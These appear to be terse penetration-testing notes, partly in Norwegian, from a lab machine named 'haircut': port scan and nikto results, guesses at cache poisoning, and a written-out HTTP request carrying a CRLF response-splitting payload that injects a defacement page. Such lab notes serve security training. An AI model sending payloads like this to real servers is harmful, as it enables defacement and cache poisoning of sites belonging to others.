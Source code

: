 ## haircut 10.10.10.24

80/tcp open  http    nginx 1.10.0 \(Ubuntu\)

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 \(Ubuntu Linux; protocol 2.0\)

[http://10.10.10.24/uploads/](http://10.10.10.24/uploads/) 403 forbidden

* Server: nginx/1.10.0 \(Ubuntu\)

* Server leaks inodes via ETags, header found with file /, fields: 0x59198410 0x90

[http://10.10.10.24/test.htm](http://10.10.10.24/test.htm)l :D nikto

ingenting i bildet. kanskje noe med curl?

cache poisoning?

http splitting?

GET /test.html?site=%0d%0aContent-

Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-

Modified:%20Mon,%2027%20Oct%202017%2014:50:18%20GMT%0d%0aConte

nt-Length:%2020%0d%0aContent-

Type:%20text/html%0d%0a%0d%0a&lt;html&gt;deface!&lt;/html&gt; HTTP/1.1

Host: 10.10.10.24

User-Agent: Mozilla/5.0 \(X11; Linux x86\_64; rv:45.0\) Gecko/20100101 Firefox/45.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8

Accept-Language: en-US,en;q=0.5

Connection: close

If-Modified-Since: Mon, 15 May 2017 10:28:48 GMT

If-None-Match: "591982e0-df"

